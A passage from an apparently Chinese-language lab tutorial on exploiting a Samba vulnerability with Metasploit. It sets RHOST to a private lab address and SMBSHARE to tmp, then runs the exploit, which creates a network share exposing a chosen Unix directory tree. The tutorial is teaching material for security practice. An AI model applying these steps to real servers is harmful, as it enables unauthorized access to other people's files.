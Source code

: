 ![图片描述](../imgs/1480572977733.png-wm.png)



输入命令，设置必要参数：

```
# 设置攻击主机

set RHOST 192.168.122.102

# 选择共享目录

set SMBSHARE tmp

```

![图片描述](../imgs/1480573418642.png-wm.png)

注意：再次提醒一下，Samba 的该漏洞危害是能够为选定的 Unix 目录（包括所有子目录）创建网络共享。

## 四、漏洞攻击

在各项参数设定完成之后，我们进行漏洞攻击：

```
# 进行漏洞攻击，samba 的该漏洞是创建网络共享

exploit 
```
